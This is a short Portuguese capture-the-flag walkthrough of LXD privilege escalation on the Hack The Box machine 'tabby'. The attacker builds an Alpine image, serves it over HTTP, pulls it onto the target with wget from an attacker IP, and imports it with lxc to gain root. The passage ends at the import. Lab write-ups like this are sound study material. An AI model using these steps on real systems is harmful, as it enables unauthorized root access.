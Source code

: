 Para o root está sendo mais dificil

encontrei este cara 

https://book.hacktricks.xyz/linux-unix/privilege-escalation/lxd-privilege-escalation

https://github.com/lxc/distrobuilder

ele monta um container, dentro da pasta que vc quiser e estipular no seu S.O e escala o privilégio montando um container dentro da maquina alvo, vou testar

basta seguir os passos certinho dessa doc ai que monta o container. Abre uma outra aba no terminal e deixa escutando o httpServer para transferir os arquivos

```bash
  ┌─[root@liquid]─[~/Desktop/HTB/tabby/lxd-alpine-builder]
    └──╼ #ls -l
    total 3180
    -rw-r--r-- 1 root root 3212312 Jun 21 22:04 alpine-v3.12-x86_64-20200621_2204.tar.gz
    -rwxr-xr-x 1 root root    7498 Jun 21 22:03 build-alpine
    -rw-r--r-- 1 root root   26530 Jun 21 22:03 LICENSE
    -rw-r--r-- 1 root root     768 Jun 21 22:03 README.md
    ┌─[✗]─[root@liquid]─[~/Desktop/HTB/tabby/lxd-alpine-builder]
    └──╼ #python -m SimpleHTTPServer 
    Serving HTTP on 0.0.0.0 port 8000 ...

< /pre>
```

```bash
ash@tabby:~$ wget http://10.10.14.29:8000/rootfs.squashfs
ash@tabby:~$ wget http://10.10.14.29:8000/lxd.tar.gz

O meu lxd.tar.gz ele veio com lxd.tar.xz

Eu dei um 'mv' e renomeei ele para 'gz', fiz com xz e deu erro.
```

Passei os arquivos da maquina para dentro da maquiina tabby, ele me gerou esses dois arquivos no caso 
```bash
lxd.tar.xz e rootfs.squashfs
```

Depois

na maquina tabby

fiz o import desse container

A maquina já contém o lxc instalado

```bash
ash@tabby:~$ lxc image import ./lxd.tar.gz rootfs.squashfs --alias alpine
```

rootfs.squashfs = esse arquivo que vai proporcionar o root na maquina é maneiro essa montagem de container.
